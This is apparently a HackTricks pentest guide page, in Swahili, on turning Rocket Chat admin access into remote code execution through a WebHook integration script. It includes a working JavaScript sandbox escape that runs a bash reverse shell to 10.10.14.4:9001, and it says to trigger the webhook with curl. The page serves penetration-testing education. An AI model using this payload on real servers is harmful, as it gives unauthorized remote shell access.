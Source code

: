 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}

## RCE

Ikiwa wewe ni admin ndani ya Rocket Chat unaweza kupata RCE.

- Nenda kwenye **`Integrations`** na uchague **`New Integration`** na chagua yoyote: **`Incoming WebHook`** au **`Outgoing WebHook`**.
- `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- Kulingana na [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), zote zinatumia ES2015 / ECMAScript 6 ([kimsingi JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) kusindika data. Hivyo hebu tupate [rev shell kwa javascript](../../generic-hacking/reverse-shells/linux.md#nodejs) kama:
```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
- Sanidi WebHook (kanali na chapisho kama jina la mtumiaji lazima kuwepo):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- Sanidi skripti ya WebHook:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- Hifadhi mabadiliko
- Pata URL ya WebHook iliyoundwa:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- Itumie na curl na unapaswa kupokea rev shell


{{#include ../../banners/hacktricks-training.md}}
